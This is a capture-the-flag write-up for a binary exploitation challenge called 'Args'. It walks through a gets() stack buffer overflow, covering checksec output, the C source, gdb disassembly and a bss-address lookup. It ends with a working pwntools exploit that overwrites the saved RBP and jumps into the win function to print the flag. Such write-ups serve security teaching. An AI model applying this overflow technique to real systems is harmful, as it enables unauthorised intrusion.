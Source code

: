 # Arg
---

### Challenge Description

Specific arguments... Seems easy

nc challenge2.lagncrash.com 10001

[Args.zip](https://github.com/caprinux/LagNCrash/files/6129814/Args.zip)

---

### Solution

So we are given the ELF binary and the source code. Checking the binary, we get:

```
$ pwn checksec argssource

[*] '/media/sf_Kali_Linux/argssource'

    Arch:     amd64-64-little

    RELRO:    Partial RELRO

    Stack:    No canary found

    NX:       NX enabled

    PIE:      No PIE (0x400000)

```

Opening the source code, we get: 

```C
#include <stdio.h>
#include <unistd.h>
int main(int argc, char** argv){
	setvbuf(stdout, NULL, _IONBF, 0);
	vuln();
}

int vuln(void){
	char buf[128];
	gets(buf);
	return 0;
}

int win(long a, long b, long c){
	if(!(a == 0xdeadbeef)) return 1;
	if(!(b == 0xcafebabecafebabe)) return 1;
	if(!(c == 0xd00df00dd00df00d)) return 1;

	char buf[64];
	FILE *f = fopen("flag.txt","r");
	if (f == NULL) {
	printf("Run this on the server.\n");
	exit(0);
	}

	fgets(buf,64,f);
	printf(buf);

	return 0;	
}
```

As you can see, from the checksec, this file does not have a canary unlike Baby, but NX is enabled. 

We go on to read the source code, we see that the executable goes from the main() to the vuln() and takes an input with the gets call, gets call does not limit the number of bytes you can input.

But buffer only holds 128 bytes of input, then it returns, this allows us to buffer overflow.

Furthermore, from the win function, we can see that flag.txt is being read from fopen, and then its copied into buf with fgets, and printed with printf.

Let's further analyse the binary in gdb-gef

We disassemble the win function to see the segments of the fgets fopen printf

```gdb

   0x00000000004007c8 <+87>:	mov    esi,0x4008b4

   0x00000000004007cd <+92>:	mov    edi,0x4008b6

   0x00000000004007d2 <+97>:	call   0x400610 <fopen@plt>

   0x00000000004007d7 <+102>:	mov    QWORD PTR [rbp-0x8],rax

```

As we can see from here, the file path is loaded into fopen, and the file is saved in rax, then rbp-0x8.

```

```gdb
   0x00000000004007f6 <+133>:	mov    rdx,QWORD PTR [rbp-0x8]

   0x00000000004007fa <+137>:	lea    rax,[rbp-0x50]

   0x00000000004007fe <+141>:	mov    esi,0x40

   0x0000000000400803 <+146>:	mov    rdi,rax

   0x0000000000400806 <+149>:	call   0x4005d0 <fgets@plt>

```

Basically, fgets will write the flag into an offset of RBP-0x50

```
   0x000000000040080b <+154>:	lea    rax,[rbp-0x50]

   0x000000000040080f <+158>:	mov    rdi,rax

   0x0000000000400812 <+161>:	mov    eax,0x0

   0x0000000000400817 <+166>:	call   0x4005b0 <printf@plt>

```

And printf will print whatever is in RBP-0x50 which is our flag.

Since it is going to write in a offset of RBP, it has to write in a writeable memory.

Hence now we know we want to overwrite the previous RBP address to a writeable memory, such that when leave function is passed, our rbp will be our overwritten writeable memory.

However, where can we find writeable memory that we can set our rbp to? We can set our RBP to the uninitialized BSS segment of the memory, which is always writeable.

To obtain the address of the bss segment, we can run the following command

```
$ objdump -x argssource | grep bss
 24 .bss          00000010  0000000000601070  0000000000601070  00001070  2**4

0000000000601070 l    d  .bss	0000000000000000              .bss

0000000000601078 l     O .bss	0000000000000001              completed.6982

0000000000601070 g     O .bss	0000000000000008              stdout@@GLIBC_2.2.5

0000000000601080 g       .bss	0000000000000000              _end

0000000000601070 g       .bss	0000000000000000              __bss_start
```
Here, we get some address of bss functions, but I wasn't sure whether to write to the start or the end. Hence, I trial and error with both __bss_start and _end .

Opening the argssource file with Ghidra, we go to the win function and we can see the address. We skip all the parameter checks and copy the address of the win function right before flag.txt is opened.

win_addr_before_fopen = 0x00000000004007c8

Now that we have everything, we can craft our exploit.

```py
from pwn import *

win_addr_before_fread = 0x00000000004007c8
vuln_offset = 128
bss_segment = 0x0000000000601080

payload = b"A" * vuln_offset + p64(bss_segment) + p64(win_addr_before_fread)
p = remote('challenge2.lagncrash.com', 10001)
p.sendline(payload)
print(p.recv())
```

We obtain the flag.

```
LNC{C5U_H4V3_7H3_GADGETS}
```

_p.s. this was probably not the intended way of solving args but welp_

